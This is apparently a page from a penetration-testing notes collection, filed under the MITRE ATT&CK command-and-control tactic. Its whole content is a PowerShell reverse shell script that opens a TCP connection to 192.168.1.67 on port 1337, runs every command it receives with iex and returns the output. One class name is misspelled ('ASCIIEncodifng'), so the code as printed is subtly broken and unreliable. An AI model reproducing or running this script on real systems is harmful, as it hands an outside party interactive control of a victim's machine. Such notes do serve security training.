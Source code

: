 ```yaml
---
description: >-
  The adversary is trying to communicate with compromised systems to control
  them. https://attack.mitre.org/tactics/TA0011/
---
```


# Command and Control

## PowerShell Reverse Shell

{% code overflow="wrap" %}
```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.1.67', 1337);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
	$data = (New-Object -TypeName System.Text.ASCIIEncodifng).GetString($bytes, 0, $i);
	$sendback = (iex $data 2>&1 | Out-String);
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte, 0, $sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```
{% endcode %}
